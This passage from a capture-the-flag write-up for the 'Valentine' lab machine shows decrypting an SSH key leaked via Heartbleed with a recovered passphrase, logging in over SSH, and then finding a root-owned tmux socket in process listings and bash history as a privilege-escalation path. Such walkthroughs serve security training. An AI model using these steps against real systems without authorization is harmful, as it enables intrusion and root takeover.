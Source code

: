 We can use openssl to try to decrypt. It asks for a password… the decode of the base64 collected with `heartbleed`, `heartbleedbelievethehype` works:
`openssl rsa -in hype_key_encrypted -out hype_key_decrypted`

Then we need to force the algorithm during connection
`ssh -i hype_key_decrypted -o PubkeyAcceptedKeyTypes=+ssh-rsa hype@10.10.10.79`

We have known the version of this machine is very old
```
uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
So of course we can try the kernel exploits, but we can try something easily and stable.

We see signed of tmux in a few places.
Process list, running as root:
```
hype@Valentine:~$ ps -ef | grep tmux
root       1022      1  0 Jul25 ?        00:00:54 /usr/bin/tmux -S /.devs/dev_sess
```

```
bash history:
hype@Valentine:~$ history
    1  exit
    2  exot
    3  exit
    4  ls -la
    5  cd /
    6  ls -la
    7  cd .devs
    8  ls -la
    9  tmux -L dev_sess
   10  tmux a -t dev_sess
   11  tmux --help
   12  tmux -S /.devs/dev_sess
   13  exit
   14  tmux ls
   15  ps -ef
   16  ps -ef |grep tmux
   17  uname -a
   18  tmus
   19  tmux
   20  tmux ls
   21  history
```

If we just run tmux ls, we’ll see no active sessions.
```
hype@Valentine:~$ tmux ls
failed to connect to server: Connection refused
```

That is to say, in line 5-7 of the history, the user goes into the /.devs directory. In line 9 we see him start tmux session with the socket dev_sess. He tried to attach to that session with -a t dev_sess (line 10), but that’s not the correct way to do it. Then he runs the help command (line 11), and gets the correct way to connect, using -S (line 12).
